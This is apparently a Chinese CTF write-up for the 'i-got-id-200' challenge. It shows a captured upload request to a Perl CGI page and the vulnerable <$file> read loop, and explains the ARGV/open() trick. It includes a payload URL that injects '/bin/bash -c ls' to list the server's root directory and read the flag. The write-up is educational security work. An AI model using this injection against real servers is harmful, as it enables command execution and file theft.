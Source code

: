 ## i-got-id-200

用perl写的网站

然而我不会perl......

有个文件上传界面

上传完会把文件里的东西以文本格式读出来显示在页面上

还是先抓个包看看

```text
POST /cgi-bin/file.pl HTTP/1.1
Host: 111.198.29.45:57795
Content-Length: 292
Cache-Control: max-age=0
Origin: http://111.198.29.45:57795
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDYZHzjAneIJ2wk7a
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://111.198.29.45:57795/cgi-bin/file.pl
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=pqnmaqdihhvciqqc9uhaeod893
Connection: close


------WebKitFormBoundaryDYZHzjAneIJ2wk7a
Content-Disposition: form-data; name="file"; filename="233.txt"
Content-Type: text/plain

23333333
------WebKitFormBoundaryDYZHzjAneIJ2wk7a
Content-Disposition: form-data; name="Submit!"

Submit!
------WebKitFormBoundaryDYZHzjAneIJ2wk7a--
```

```text
HTTP/1.1 200 OK
Date: Thu, 16 Jan 2020 13:57:38 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 564
Connection: close
Content-Type: text/html; charset=ISO-8859-1

<!DOCTYPE html
	PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"
>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en-US" xml:lang="en-US">
	<head>
		<title>Perl File Upload</title>
		<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
	</head>
	<body>
		<h1>Perl File Upload</h1>
		<form method="post" enctype="multipart/form-data">
			File: <input type="file" name="file" />
			<input type="submit" name="Submit!" value="Submit!" />
		</form>
		<hr />
23333333<br /></body></html>
```

查阅资料发现Perl CGI 有个很经典的漏洞类似这个题目

```perl
use strict;
use warnings;
use CGI;
my $cgi = CGI->new;
if ( $cgi->upload( 'file' ) ) {
    my $file = $cgi->param( 'file' );
    while ( <$file> ) {
    	print "$_";
    }
}
```

问题就处在这个<$file>上

- “<>” doesn’t work with strings 
  -  Unless the string is “ARGV” 
- In that case, “<>” loops through the ARG values 
  - Inserting each one to an open() call! 

所以我们试着加个ARGV就可以利用open()任意读文件了
根据参考资料中的ppt我们甚至可以用bash遍历一下目录

```
/cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| #遍历根目录
```

找到flag

直接读一下即可

## 参考资料

Perl CGI 问题：https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf

